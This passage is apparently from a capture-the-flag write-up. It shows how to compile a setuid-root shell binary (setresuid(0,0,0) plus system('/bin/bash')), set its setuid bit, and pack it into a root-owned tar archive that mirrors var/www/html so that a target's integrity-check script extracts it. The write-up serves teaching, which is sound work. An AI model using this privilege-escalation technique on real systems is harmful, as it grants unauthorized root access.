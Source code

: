     
    root@kali# gcc -m32 -o suid suid.c
    suid.c: In function ‘main’:
    suid.c:2:3: warning: implicit declaration of function ‘setresuid’ [-Wimplicit-function-declaration]
       setresuid(0, 0, 0);
       ^~~~~~~~~
    suid.c:3:3: warning: implicit declaration of function ‘system’ [-Wimplicit-function-declaration]
       system("/bin/bash");
       ^~~~~~
    

Finally, I’ll add the setuid bit:

    
    
    root@kali# chmod 6555 suid
    root@kali# ls -l suid*
    -r-sr-sr-x 1 root root 15484 Oct 21 11:44 suid
    -rwxr-x--- 1 root root    63 Oct 21 11:44 suid.c
    

### Add to Archive

#### Why Do I Need var/www/html Directories?

Next add it to a gzipped archive using tar. I’m going to need to mirror the
directory structure on target. Why? Let’s see what happens if we don’t. We’ll
create a .tar.gz file that contains suid.

It will be unzipped to `/var/tmp/check/suid`.

Then, `integrity_chk()` will be run, which will `diff /var/www/html
/var/tmp/check/var/www/html`. That will exit with a 2, since that directory
doesn’t exit. And as we saw above, that means the `if [[ $(integrity_chk) ]]`
will evaluate false, and then the code will move to the section that cleans
up.

#### Create Archive

Create directories (`-p` will create all the directories needed), add the
file, and reset the suid bit:

    
    
    root@kali# mkdir -p  var/www/html
    root@kali# cp suid var/www/html/
    root@kali# chmod 6555 var/www/html/suid
    

Now make the archive. I’ll make use of the `--owner` and `--group` options to
make sure it is owned by root (unnecessary, but a neat trick if you want to
add a file with a different owner/group):

    
    
    root@kali# tar zcvf suid.tar.gz var --owner=root --group=root
    var/
    var/www/
    var/www/html/
    var/www/html/suid
    
